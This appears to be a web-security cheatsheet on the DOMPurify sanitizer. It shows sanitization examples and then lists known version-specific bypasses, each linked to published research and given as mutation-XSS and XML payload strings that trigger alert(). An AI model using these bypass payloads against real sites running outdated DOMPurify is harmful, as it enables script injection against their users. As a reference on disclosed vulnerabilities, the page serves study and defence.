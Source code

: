 ```yaml
---
title: "DOMPurify"
description: "Cheatsheet on DOMPurify"
lead: "Cheatsheet on DOMPurify"
date: 2023-01-01T00:00:00+00:00
lastmod: 2023-01-01T00:00:00+00:00
draft: false
images: []
menu:
  docs:
    parent: "framework"
weight: 620
toc: true
---
```


## DOMPurify

[DOMPurify](https://github.com/cure53/DOMPurify) is the leading client-side XSS sanitizer for HTML, MathML and SVG.

Examples of sanitization:

```js
DOMPurify.sanitize('<img src=x onerror=alert(1)//>'); // becomes <img src="x">
DOMPurify.sanitize('<svg><g/onload=alert(2)//<p>'); // becomes <svg><g></g></svg>
DOMPurify.sanitize('<p>abc<iframe//src=jAva&Tab;script:alert(3)>def</p>'); // becomes <p>abc</p>
DOMPurify.sanitize('<math><mi//xlink:href="data:x,<script>alert(4)</script>">'); // becomes <math><mi></mi></math>
DOMPurify.sanitize('<TABLE><tr><td>HELLO</tr></TABL>'); // becomes <table><tbody><tr><td>HELLO</td></tr></tbody></table>
DOMPurify.sanitize('<UL><li><A HREF=//google.com>click</UL>'); // becomes <ul><li><a href="//google.com">click</a></li></ul>
```

## Vulnerabilities

### Version <= 3.0.10 & 3.0.11

- [Bypassing DOMPurify with good old XML](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)

```xml
<?xml-stylesheet > <img src=x onerror="alert('DOMPurify bypassed!!!')"> ?>
<?img ><img src onerror=alert(1)>?>
<![CDATA[ ><img src onerror=alert(1)> ]]>
```

### Version <= 3.0.8

- [Playing with DOMPurify custom elements handling](https://mizu.re/post/playing-with-dompurify-ce-handling)

### Version < 2.2.3

- [Testing a more advanced mXSS mitigation strategy for MathML](https://github.com/cure53/DOMPurify/commit/8ab47b0a694022b396e30b7f643e28971f75f5d8)

```html
<math><mtext><h1><a><h6></a></h6><mglyph><svg>
<mtext><style><a title="</style><img src onerror='alert(1)'>"></style></h1>
```

### Version <= 2.2.0

- [Bypass in DOMPurify when sanitizing svg elements](https://hackerone.com/reports/1024734)

```html
<form><math><mtext></form><form><mglyph><svg>
<mtext><style><path id="</style><img onerror=alert(\'XSS\') src>">
```

### Version < 2.1

- [Bypassing DOMPurify again with mutation XSS](https://portswigger.net/research/bypassing-dompurify-again-with-mutation-xss)

```html
<math><mtext><table><mglyph><style>
<!--</style><img title="--&gt;&lt;img src=1 onerror=alert(1)&gt;">
```

```xml
<math><mtext><table><mglyph><style>
<!--</style><img title="--&gt;&lt;/mglyph&gt;&lt;img&Tab;src=1&Tab;onerror=alert(1)&gt;">
```

### Version < 2.0.17

- [Mutation XSS via namespace confusion](https://research.securitum.com/mutation-xss-via-mathml-mutation-dompurify-2-0-17-bypass/)

```html
<form>
<math><mtext>
</form><form>
<mglyph>
<style></math><img src onerror=alert(1)>
```

### Version <= 2.0.0

- [Write-up of DOMPurify 2.0.0 bypass using mutation XSS](https://research.securitum.com/dompurify-bypass-using-mxss/)

```html
<svg></p><style><a id="</style><img src=1 onerror=alert(1)>">
```